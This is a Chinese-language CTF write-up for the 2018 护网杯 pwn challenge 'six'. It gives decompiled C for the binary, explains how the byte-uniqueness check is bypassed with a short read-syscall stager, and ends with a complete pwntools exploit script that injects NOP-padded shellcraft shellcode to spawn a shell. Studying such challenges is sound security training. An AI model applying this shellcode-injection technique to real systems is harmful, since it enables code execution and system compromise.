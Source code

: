 ```yaml
---
layout:     post
title:      护网杯six题解
subtitle:    护网杯six
date:       2018-12-27
author:     XT
header-img: img/post-bg-coffee.jpeg
catalog: 	 true
tags:
    - pwn
---
```



> six


# six

源码如图


```c

int __cdecl main(int argc, const char **argv, const char **envp)
{
  void (__fastcall *v3)(__int64, char *);  // ST08_8@1
  
  size_t v4; // rax@1
  
  char *v5; // rbx@1
  
  size_t v6; // rax@1
  
  int result; // eax@1
  
  __int64 v8; // rcx@1
  char s; // [sp+10h] [bp-20h]@1
  __int64 v10; // [sp+18h] [bp-18h]@1
  v10 = *MK_FP(__FS__, 40LL);
  mmap2();                                      // 分配两块地址 
                                                // dest可执行 
                                                // fake_stack可写可读 
  v3 = dest;                                    // dest地址赋值给v3 
  memset(&s, 0, 8uLL);
  puts("Show me your shellcode:");
  read(0, &s, 7uLL);
  check(&s, &s);
  v4 = strlen(src);
  memcpy(dest, src, v4);                        // src传到第一块内存中 
  v5 = dest;
  v6 = strlen(src);
  memcpy(&v5[v6], &s, 7uLL);                    // 将用户的输入传到src之后 
  v3(fake_stack, &s);                           // v3即调用我们的dest函数，参数为fake_stack 
  result = 0;
  v8 = *MK_FP(__FS__, 40LL) ^ v10;
  return result;
}

__int64 mmap2()
{
  int fd; // ST04_4@1
  __int64 buf; // [sp+8h] [bp-18h]@1 //buf低地址
  __int64 v3; // [sp+10h] [bp-10h]@1 //v3高地址
  __int64 v4; // [sp+18h] [bp-8h]@1

  v4 = *MK_FP(__FS__, 40LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  fd = open("/dev/urandom", 0);
  read(fd, &buf, 6uLL);
  read(fd, &v3, 6uLL);
  dest = mmap((v3 & 0xFFFFFFFFFFFFF000LL), 0x1000uLL, 7, 34, -1, 0LL);  // dest可执行 
  
  fake_stack = mmap((buf & 0xFFFFFFFFFFFFF000LL), 0x1000uLL, 3, 34, -1, 0LL) + 1280;
  return *MK_FP(__FS__, 40LL) ^ v4;
}

__int64 __fastcall check(__int64 a1)
{
  __int64 result; // rax@2
  signed int i; // [sp+18h] [bp-8h]@1
  int j; // [sp+1Ch] [bp-4h]@2

  for ( i = 0; i <= 6; ++i )
  {
    result = (i + 1);
    for ( j = i + 1; j <= 6; ++j )
    {
      result = *(j + a1);
      if ( *(i + a1) == result )
      {
        puts("Invalid shellcode!");
        exit(0);
      }
    }
  }
  return result;
}

```



其中check函数是用来检测我们写的shellcode是不是每个字节相同的。

对于src即我们的shellcode之前的那一段代码，

因为具有可执行性所以我们的代码是

![1545912100040](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/six.png)

把所有的寄存器都设为了0，并且把rsp指向了第二块申请内存的地址

所以这题的思路是，由于src将各寄存器都置0了，我们可以利用0号系统调用read输入进行第二次的shellcode输入，输入位置可以是rsp栈顶，rax=0表示0号调用read,rdi=0表示标准输入，rsi可以设置为rsp，表示输入到栈顶，rdx表示输入字节大小，这个不固定，只要能过judge就行。然后通过read输入shellcode覆盖这两块内存空间，直到覆盖过rip，最后在尾部加上调用shell的shellcode即可。这里我用nop填充。

最后脚本为

```python

from pwn import *
context(os="linux",arch="amd64",log_level="debug",endian="little")
context.terminal = ['tmux', 'split', '-h']
sh = process("./seven")
#gdb.attach(sh,"b read")
sh.recvuntil("Show me your shellcode:")

payload1 =asm("push rsp;pop rsi;mov edx,esi;syscall")
sh.sendline(payload1)
nop=asm("nop")
shell= asm(shellcraft.sh())

payload2=nop*0xb36+shell
sh.sendline(payload2)
sh.interactive()

```

至于那个长度b36，可以在调试的时候测试出来。


